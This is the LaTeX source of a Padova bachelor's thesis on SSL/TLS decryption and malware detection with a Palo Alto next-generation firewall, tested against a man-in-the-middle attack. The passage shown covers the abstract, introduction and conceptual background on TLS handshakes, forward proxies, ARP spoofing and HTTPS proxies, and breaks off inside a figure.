\input{model/Modello_tesi}
\setlength{\headheight}{14.5pt}



\usepackage[skip=1ex]{caption}
\usepackage{listings}
\lstdefinelanguage{JavaScript}{
  keywords={typeof, new, true, false, catch, function, return, null, catch, switch, var, if, in, while, do, else, case, break},
  keywordstyle=\color{blue}\bfseries,
  ndkeywords={class, export, boolean, throw, implements, import, this},
  ndkeywordstyle=\color{darkgray}\bfseries,
  identifierstyle=\color{black},
  sensitive=false,
  comment=[l]{//},
  morecomment=[s]{/*}{*/},
  commentstyle=\color{purple}\ttfamily,
  stringstyle=\color{red}\ttfamily,
  morestring=[b]',
  morestring=[b]"
}

\lstset{
   language=JavaScript,
   backgroundcolor=\color{lightgray},
   extendedchars=true,
   basicstyle=\footnotesize\ttfamily,
   showstringspaces=false,
   showspaces=false,
   numbers=left,
   numberstyle=\footnotesize,
   numbersep=9pt,
   tabsize=2,
   breaklines=true,
   showtabs=false,
   captionpos=b
}

\usepackage[abbreviations,shortcuts,sort=none]{glossaries-extra}

%\makenoidxglossaries % Glossario per latex

\newacronym{decamp}{DECAMP}{open Distributed European virtual CAMPus on ICT security}
\newacronym{ssl}{SSL}{Secure Sockets Layer}
\newacronym{tls}{TLS}{Transport Layer Security}
\newacronym{tcp}{TCP}{Transmission Control Protocol}
\newacronym{ip}{IP}{Internet Protocol}
\newacronym{https}{HTTPS}{Hypertext Transfer Protocol over Secure Socket Layer}
\newacronym{isoosi}{ISO/OSI}{The Open Systems Interconnections developed by the International Organization for Standardization}
\newacronym{ids}{IDS}{Intrusion Detection System}
\newacronym{ips}{IPS}{Intrusion Protection System}
\newacronym{ngfw}{NGFW}{Next Generation Firewall}
\newacronym{mitm}{MITM}{Man In The Middle}
\newacronym{ai}{AI}{Artificial Intelligence}
\newacronym{arp}{ARP}{Address Resolution Protocol}
\newacronym{kvm}{KVM}{Kernel Virtual Machine}
\newacronym{wan}{WAN}{Wide Area Network}
\newacronym{lan}{LAN}{Local Area Network}
\newacronym{dmz}{DMZ}{Demilitarized Area}
\newacronym{fw}{FW}{Firewall}
\newacronym{nat}{NAT}{Network Address Translation}
\newacronym{hsts}{HSTS}{HTTP Strict Transport Security}
\newacronym{panos}{PAN-OS}{Palo Alto Networks - Operating System}
\newacronym{eicar}{EICAR}{European Institute for Computer Antivirus Research}
\newacronym{acc}{ACC}{Application Control Center}
\newacronym{hid}{HID}{Human Interface Device}
\newacronym{cli}{CLI}{Command Line Interface}
\newacronym{gui}{GUI}{Graphical User Interface}
\newacronym{mac}{MAC}{Media Access Control}
\newacronym{html}{HTML}{HyperText Markup Language}
\newacronym{vpn}{VPN}{Virtual Private Network}
\newacronym{ca}{CA}{Certificate Authority}
\newacronym{pki}{PKI}{Public Key Infrastructure}
\newacronym{hmac}{HMAC}{hash-based message authentication code}


\begin{document}


% ------- Copertina ---------------
\begin{titlepage}
%
\includegraphics[height=3cm]{images/logo_left.png}
%\hspace{3.5cm}
%\begin{figure}
%\begin{subfigure}{0.4\textwidth}
%    
\includegraphics[height=2cm]{images/login-logo.png}
%\end{subfigure}
%\hfill
%\begin{subfigure}{0.4\textwidth}
%    
\includegraphics[height=2.5cm]{images/logo_left.png}
%\end{subfigure}
%\end{figure}
\begin{center}

%Per il frontespizio del dipartimenti di Ing. dell'Informazione commentare le riga precedente e decommentare la successiva

\includegraphics[scale=0.2]{images/logo_unipd.png} \hfill 
\includegraphics[scale=0.2]{images/logo_dei.png}\\
\vspace{0.8cm}
\textsc{\LARGE Universit\`{a} degli Studi di Padova}\\
\vspace{0.45cm}
\textsc{\large Dipartimento di Ingegneria dell'Informazione}\\
\vspace{0.4cm}
\textsc{\large Corso di Laurea in}\\
\textsc{\large Ingegneria Informatica}\\
\vfill
% Title
{ \LARGE \bfseries Managing Security of Computer Network Applications using Encryption Techniques
}\\
\vfill
\textit{\large Relatore:} \hfill \textit{\large Laureando:}\\
\textsc{\large Prof. Nicola Laurenti} \hfill \textsc{\large Marco Martini}\\
\textit{\large Correlatore:} \hfill \textsc{\large 1189321}\\
\textsc{\large Prof. Dr.-Ing Alexandru Soceanu} \hfill \textsc{}

\vfill
% Bottom of the page
{\large ANNO ACCADEMICO 2021/2022} \\
{\large Data di laurea 19/09/2022}
\end{center}
\end{titlepage}

\thispagestyle{empty} %pagina bianca dopo il titolo


% -------------------------------------------------------------------------------------------


\cleardoublepage

\section*{Ringraziamenti / Acknowledgements}

\subsection*{Italian}



Vorrei ringraziare tutti coloro che mi hanno aiutato a raggiungere questo obiettivo, ai professori e lo staff dell'Università di Padova. la mia famiglia e i miei colleghi universitari.

Un ringraziamento speciale al mio relatore, Prof. Nicola Laurenti che si è sempre dimostrato disponibile e preparato.

Ringrazio anche il Professor Dr.-Ing. Alexandru Soceanu e il Dr.-Ing Armin Jelešković dell'Università di scienze applicate di Monaco per gli strumenti e le conoscenze fornitemi durante il corso \glsxtrshort{decamp} di Secure Network Management.


\subsection*{English}

I thank everyone that helped me going through this path, my University's professors, staff members and colleagues along with my family.

A special thank to my advisor, Prof. Nicola Laurenti who's always been available and a great source of knowledge.

I also want to thank Professor Dr.-Ing Alexandru Soceanu along with his assistant Dr.-Ing Armin Jelešković of the Munich University of Applied Sciences for the knowledge and tools they provided during the \glsxtrshort{decamp} course Secure Network Management.


\tableofcontents

\newpage

\chapter*{Abstract}

\addcontentsline{toc}{chapter}{Abstract}

\section*{English}

This paper covers the usage of \glsxtrshort{ssl} and \glsxtrshort{tls} encryption techniques to improve the security of the Computer Network applications including their weaknesses. In order to do that an \glsxtrshort{https} web server will be implemented and will be accessed through a virtual network.
The virtual network will be protected through a proprietary \glsxtrfull{ngfw} from Palo Alto Networks, the paper will explore its Malware Detection and \glsxtrshort{ssl} Decryption capabilities showing their advantages and/or weaknesses.
In order to verify the Firewall's effectiveness a \glsxtrfull{mitm} attack will be deployed inside the virtual network.
This paper will end by stating the results obtained by analyzing the \glsxtrshort{ngfw} tools and their behaviour against the network attacks.

\section*{Italian}

Questo documento copre l'utilizzo di tecniche di cifratura \glsxtrshort{ssl} e \glsxtrshort{tls} per aumentare la sicurezza di applicazioni di rete rimediando alle loro vulnerabilit\`a.
Per farlo verr\`a creata una rete virtuale che acceder\`a ad un server web \glsxtrshort{https}.
La rete virtuale sar\`a protetta dal Firewall di nuova generazione (\glsxtrshort{ngfw}) proprietario di Palo Alto Networks, esplorando le funzionalit\`a di Malware Detection e \glsxtrshort{ssl} Decryption, elencandone i vantaggi e/o svantaggi.
Per dimostrare l'efficacia del Firewall verr\`a creato un attacco \glsxtrfull{mitm}.
Si dimostrano infine i risultati dell'esperimento dati dall'analisi del comportamento degli strumenti del Firewall contro gli attacchi di rete.

\newpage

\printunsrtglossary[type=abbreviations,title=Acronyms]

\newpage



\chapter{Introduction}
\section{Motivation for the Work}

During the past 30 years the way we use computers has fundamentally changed, we now have devices capable of connecting to the Internet in our pockets, and that has lead to an ever increasing interest for companies to focus on the Web.

Nowadays the 55.9\% of Alexa's list of most popular sites in the world provide a Secure \glsxtrshort{ssl}/\glsxtrshort{tls} implementation\cite{ssl-pulse}.

While Encryption provides Confidentiality and Integrity\cite{ibm-ssl} for the end user, it also provide attackers and malware software a way to inject their payload to vulnerable clients without being able to be detected.

This paper will be focused on the Malware protection capabilities that \glsxtrshort{ngfw} provide, even in encrypted connections. It's capable of that through an \glsxtrshort{ssl} Forward Proxy.

Despite the added security achieved by having a mediator between the untrusted zone (Internet) and the client, a \glsxtrfull{mitm} attack could be used to compromise the network if forged well enough, this work will prove whether or not \glsxtrshort{ngfw} are effective against this type of attacks.


\section{Objective of the Work}

The Objective of this work will be showing how to implement a Decryption tunnel and Malware Detection in Palo Alto FW and demonstrating it's effectiveness when the network has been compromised through a \glsxtrshort{mitm} attack.

%It will also report how to mitigate the attack.

\section{Summary of the Work}

The Work will be as following:

\begin{itemize}
    \item Setting up the Virtual Network
    \item Setting up Palo Alto Firewall
    \item Setting up Malware Detection
    \item Creating the \glsxtrshort{ssl}/\glsxtrshort{tls} Certificates
    \item Setting up Decryption
    \item Testing Malware Detection
    \item Setting up the \glsxtrshort{mitm} attack
    \item Testing Malware Detection again
    \item Setup a way to block the attack
\end{itemize}

\chapter{Description of the Components}

The following sections will briefly describe the components used in this experiment.

\section{Next Generation Firewalls and Palo Alto}

\subsection{Next Generation Firewalls}

Next Generation Firewalls are the evolution of traditional firewalls and are bound to replace them entirely in the corporate space.

Traditional Firewalls can only filter traffic based on state (flow of data instead of single network packets), port, protocol or through hand crafted filters.

Even if a Traditional Firewall is aware of the state of the connection, the data it can extrapolate is very low, for example it knows:

\begin{itemize}
 \item When was the flow started
 \item When the flow is being used
 \item When the flow is being closed
\end{itemize}

\newpage

A Next Generation Firewall does everything a Traditional Firewall can and more by using \glsxtrshort{ai} enhanced algorithms  and by using the Cloud as to always be up to date with new threats and malware.

In order for a Firewall to be classified as ``New Generation'' it must provide\cite{ngfw-cisco}:

\begin{itemize}
 \item Standard firewall capabilities like stateful inspection
 \item Integrated intrusion prevention
 \item Application awareness and control to see and block risky apps
 \item Threat intelligence sources
 \item Upgrade paths to include future information feeds
 \item Techniques to address evolving security threats
\end{itemize}

\newpage

\subsection{Palo Alto Firewalls}

Palo Alto Networks is an American multinational cybersecurity company based in Santa Clara, California.

Other than the mandatory \glsxtrshort{ngfw} features, Palo Alto's Firewall solutions provide many more tools, some of which are\cite{panos-features}:

\begin{itemize}
    \item Application-based policy enforcement (App-ID)
    \item User identification (User-ID).
    \item Threat prevention.
    \item URL filtering.
    \item Traffic visibility.
    \item Networking versatility and speed.
    \item GlobalProtect. ()
    \item Fail-safe operation.
    \item Malware analysis and reporting.
    \item VM-Series firewall.
    \item Management and Panorama.
\end{itemize}

This paper will cover the Threat analysis feature of this platform enhanced by the decryption of \glsxtrshort{ssl}/\glsxtrshort{tls} packets.

\newpage

\section{\glsxtrshort{ssl}/\glsxtrshort{tls} Decryption}

\glsxtrfull{ssl} and \glsxtrfull{tls} protocols are the most used protocols to provide secure communication over the internet.

They are present between the Application Layer and the Transport Layer in the \glsxtrshort{tcp}/\glsxtrshort{ip} stack and enable to identify and authenticate two parties by keeping confidentiality and data integrity.

\begin{figure}[!hb]
    \centering
    
\includegraphics[width=13cm]{img/ssl-stack.png}
    \caption{The \glsxtrshort{ssl} Layer in the \glsxtrshort{tcp}/\glsxtrshort{ip} Stack}
    \label{SSL Layer}
\end{figure}


\newpage

In order for the two parties to communicate, an \glsxtrshort{ssl}/\glsxtrshort{tls} Handshake must be performed first.


\begin{figure}[!hb]
 \centering
 
\includegraphics[width=13cm]{img/ssl_handshake.png}
 \caption{Overview of the \glsxtrshort{ssl} or \glsxtrshort{tls} handshake}
 \caption*{Source: https://www.ibm.com/docs/en/ibm-mq/7.5?topic=ssl-overview-tls-handshake}
 \label{SSL handshake}
\end{figure}

In short the first two packets are needed to establish the role of client/server between the two parties and establish a supported Cipher and Compression method along with the server sending the digital certificate.

After that the client verifies the server's certificate, sends a secret key used to encrypt the following data which is encrypted itself with the server's public key and optionally sends its own certificate in case of a symmetrical encryption method.

Finally both the client and server send a ``finished'' message encrypted with the secret key indicating that the handshake is complete.

The \glsxtrshort{ssl} Decryption, also known as \glsxtrshort{ssl} Forward Proxy or \glsxtrshort{ssl} Inspection, covered in this paper refers as a technique where instead of having  2 parties, we have 3:

The server establishes a handshake with the firewall acting as a client and the firewall at the same time establishes an handshake to the real client by acting as the server.

\begin{figure}[!hb]
 \centering
 
\includegraphics[width=13cm]{img/ssl_decryption_diagram.png}
 \caption{\glsxtrshort{ssl} Forward Proxy Diagram}
 \caption*{Source: https://www.ibm.com/docs/en/ibm-mq/7.5?topic=ssl-overview-tls-handshake}
 \label{SSL Forward Diagram}
\end{figure}

\newpage

\section{Malware Detection in Firewalls}

The first line of protection in an organization against malicious attackers is in most cases the Firewall.

Since a Firewall provides a gateway to the outside world it makes sense that a malware protection strategy will also be installed there.

Traditional Firewalls used to only be able to inspect a flow of non-encrypted data, as such, the only way to detect malware was to compare the hash of the downloaded data from the client to a local database which is highly exploitable (by for example changing a few bytes in the payload).

Through \glsxtrshort{ngfw}s Malware signatures can be constantly updated through the Cloud and instead of comparing hashes, the threat prevention in this new technology can analyse the payload itself, even if compressed or comes from an encrypted source such as \glsxtrshort{https}.

\section{\glsxtrshort{https} Server with Let's Encrypt}

The \glsxtrshort{https} protocol is a secure version of the HTTP, to make it secure, \glsxtrshort{ssl}/\glsxtrshort{tls} certificates must be installed into the server that deploys it.

Let's Encrypt is a non-profit Certification Authority that provides \glsxtrshort{tls} certificates for free, although valid for only 90 days.

The official implementation is `certbot`, a tool that automates the generation and renewal of the certificates.

It also provide an automatic certificate installation for `nginx` and `Apache`, the most popular and Open Source web server software.

\section{The Network Attack}

Since \glsxtrshort{ssl} Decryption is just a Man in The Middle implementation, the web client must trust the firewall before the website, so if not careful an user can be a victim of another \glsxtrshort{mitm} implementation.

\newpage

\subsection{\glsxtrshort{arp} Spoofing}

In order to deploy a successful \glsxtrshort{mitm} attack the user must connect to the Attacker machine first.

\glsxtrshort{arp} Spoofing, or \glsxtrshort{arp} poison, consists in a technique where the attacker sends multiple spoofed \glsxtrshort{arp} messages.

Since \glsxtrfull{arp} is used to associate a network device MAC address with its \glsxtrshort{ip}-address, spoofing an \glsxtrshort{arp} message means that the attacker will forcefully associate the MAC address of the LAN Gateway to the machine of the attacker himself.

\begin{figure}[h!]
 \centering
 
\includegraphics[width=13cm]{img/ARP_Spoofing.png}
 % ARP_Spoofing.png: 1005x768 px, 72dpi, 35.45x27.09 cm, bb=
 \caption{A successful \glsxtrshort{arp} spoofing (poisoning) attack allows an attacker to alter routing on a network, effectively allowing for a man-in-the-middle attack}
 \caption*{Source: https://en.wikipedia.org/wiki/ARP\_spoofing}
 \label{fig: ARP Spoofing}
\end{figure}

\newpage

\subsection{\glsxtrshort{https} Proxy}

An \glsxtrshort{https} proxy is a server application that acts as an intermediary between a client and a \glsxtrshort{ssl} encrypted website.

If used together with a spoofer, in our case an \glsxtrshort{arp} Spoofer, every \glsxtrshort{https} traffic in the network will be redirected to the attacker allowing them to modify the resource at will.

It works exactly like an \glsxtrshort{https} server so it also needs its own \glsxtrshort{ssl}/\glsxtrshort{tls} certificates, when used in a Network Attack they're usually forged to seem legitimate.

\begin{figure}[h!]
 \centering
